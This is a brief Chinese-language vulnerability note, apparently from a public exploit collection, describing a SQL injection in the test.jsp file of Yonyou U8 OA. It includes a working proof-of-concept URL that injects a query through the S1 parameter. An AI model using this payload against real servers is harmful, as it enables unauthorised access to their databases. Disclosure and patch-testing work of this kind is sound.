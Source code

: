 # 用友 U8 OA test.jsp SQL注入漏洞

用友 U8 OA test.jsp文件存在 SQL注入漏洞，由于与致远OA使用相同的文件，于是存在了同样的漏洞。

poc:

```
http://target/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))

```

via:PeiQi
